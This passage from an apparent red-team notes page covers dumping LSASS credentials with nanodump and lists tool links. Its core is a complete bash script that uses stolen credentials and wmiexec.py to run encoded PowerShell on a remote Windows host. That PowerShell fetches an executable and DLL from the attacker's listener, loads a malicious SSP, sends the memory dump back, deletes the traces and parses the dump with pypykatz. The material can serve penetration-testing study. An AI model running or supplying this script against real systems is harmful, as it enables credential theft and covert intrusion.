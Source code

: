 - [https://github.com/Hagrid29/DuplicateDump](https://github.com/Hagrid29/DuplicateDump)



### nanodump

- [https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps](https://www.coresecurity.com/core-labs/articles/nanodump-red-team-approach-minidumps)
- [https://github.com/helpsystems/nanodump](https://github.com/helpsystems/nanodump)

```
Cmd > .\load_ssp.x64.exe C:\Windows\Temp\nanodump_ssp.x64.dll
beacon> load_ssp
```

Do it automatically with `wmiexec.py` magic (using [this](https://gist.github.com/mildred/67d22d7289ae8f16cae7) Python HTTP server with PUT support):

{% code title="nanodump_ssp.sh.cs" %}
```bash
#!/usr/bin/env bash

# Usage: sudo nanodump_ssp.sh <[DOMAIN\]USERNAME>:<PASSWORD> <TARGET> <LISTENER>
# Example: sudo nanodump_ssp.sh 'megacorp.local\snovvcrash:Passw0rd!' 192.168.1.11 10.10.13.37 80

CREDS=$1
RHOST=$2
LHOST=$3
LPORT=$4

CMD="IWR -Uri http://${LHOST}/a.exe -OutFile C:\Windows\Temp\a.exe;IWR -Uri http://${LHOST}/a.dll -OutFile C:\Windows\Temp\a.dll;C:\Windows\Temp\a.exe C:\Windows\Temp\a.dll"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

python3 -m http.server ${LPORT} &

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 10

kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`
python3 put.py --bind=0.0.0.0 ${LPORT} &

CMD="IWR -Uri http://${LHOST}/out.bin -Method PUT -InFile C:\Windows\Temp\report.docx;rm C:\Windows\Temp\a.exe;rm C:\Windows\Temp\a.dll;rm C:\Windows\Temp\report.docx"
CMD_BASE64=`echo -n ${CMD} | iconv -t UTF-16LE | base64 -w0`

wmiexec.py -silentcommand -nooutput ${CREDS}@${RHOST} "powershell -enc ${CMD_BASE64}"
sleep 30

kill -9 `netstat -tulpan | grep ${LPORT} | grep python | awk '{ print $7 }' | awk -F/ '{ print $1 }'`

bash restore_signature.sh out.bin
pypykatz lsa minidump out.bin

chown ${SUDO_USER}:${SUDO_USER} out.bin
```
{% endcode %}
